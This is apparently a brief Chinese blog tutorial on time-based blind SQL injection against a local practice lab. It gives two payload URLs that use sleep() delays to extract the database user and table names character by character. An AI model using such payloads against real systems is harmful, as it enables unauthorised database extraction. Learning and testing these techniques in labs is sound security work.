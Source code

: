 ```yaml
---
layout: post
title: "1.3.2-SQL注入-SQL盲注-时间盲注"
date: 2018-06-23
category: web安全
tags: sql注入 sql盲注
---
```


## 时间盲注

### 时间盲注原理
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/02.png)



### 时间盲注方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/03.png)
	
	http://localhost:90/Less-10/?id=1" and if(left(user(),1)='a',0,sleep(3))--+

	http://localhost:90/Less-10/?id=1" and if(left(select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='r',0,sleep(3))--+

时间注入脚本  

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/04.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/05.png)

--- 
## links
[时间盲注](https://mp.weixin.qq.com/s?__biz=MzIzNzExNzI5Ng==&mid=2648732982&idx=1&sn=159f2b13d7737232577ae11ccecb33d2&chksm=f0d95f29c7aed63f2e0aea215f57672f7282de08c47a1033e6b2cfe1fee5fb788b4c8de405c0&mpshare=1&scene=23&srcid=0702v4QOmQfViIjUPqq98LAc)
